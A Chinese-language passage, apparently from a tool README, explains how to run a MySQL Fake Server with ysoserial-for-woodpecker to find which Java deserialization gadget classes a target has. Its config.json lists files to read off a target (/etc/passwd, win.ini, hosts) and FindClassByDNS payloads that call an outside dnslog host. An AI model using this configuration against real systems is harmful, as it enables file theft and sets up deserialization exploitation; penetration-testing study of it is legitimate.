 下载 [ysoserial-for-woodpecker.jar](https://github.com/woodpecker-framework/ysoserial-for-woodpecker/releases/tag/0.5.2) 用来辅助检测。

根据 c0ny1 师傅的 [class checklist](https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#0x06-%E9%85%8D%E5%90%88class-checklist%E9%A3%9F%E7%94%A8) 来判断目标 Gadget 版本范围。

把 `dnslog` 改成自己的，保留 `cc31` 这种前缀方便判断。

![image](https://user-images.githubusercontent.com/84888757/229471259-c6456092-2d49-4ed1-88f3-5154922ecb28.png)


📒 config.json
```json
{
    "config":{
        "ysoserialPath":"ysoserial-for-woodpecker-0.5.2.jar",
        "javaBinPath":"java",
        "fileOutputDir":"./fileOutput/",
        "displayFileContentOnScreen":true,
        "saveToFile":true
    },
    "fileread":{
        "win_ini":"c:\\windows\\win.ini",
        "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
        "win":"c:\\windows\\",
        "linux_passwd":"/etc/passwd",
        "linux_hosts":"/etc/hosts",
        "index_php":"index.php",
        "ssrf":"https://www.baidu.com/",
        "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
    },
    "yso":{
        "CC31":["FindClassByDNS","http://cc31.v6840fsg.eyes.sh|org.apache.commons.collections.list.TreeList"],
        "CC322":["FindClassByDNS","http://cc322.v6840fsg.eyes.sh|org.apache.commons.collections.functors.FunctorUtils$1"],
        "CC4":["FindClassByDNS","http://cc4.v6840fsg.eyes.sh|org.apache.commons.collections4.comparators.TransformingComparator"],
        "CB190":["FindClassByDNS","http://cb190.v6840fsg.eyes.sh|org.apache.commons.beanutils.BeanIntrospector"],
        "CB183":["FindClassByDNS","http://cb183.v6840fsg.eyes.sh|org.apache.commons.collections.Buffer"],
        "C3P0":["FindClassByDNS","http://c3p0.v6840fsg.eyes.sh|com.mchange.v2.c3p0.test.AlwaysFailDataSource"]
    }
}
```

启动 Mysql Fake Server ，探测目标网站存在哪些类。
```bash
python3 server.py
```

通过 `dnslog` 判断类名存不存在，从而判断服务端可利用的 `gadget` 的版本范围，再去进行利用。
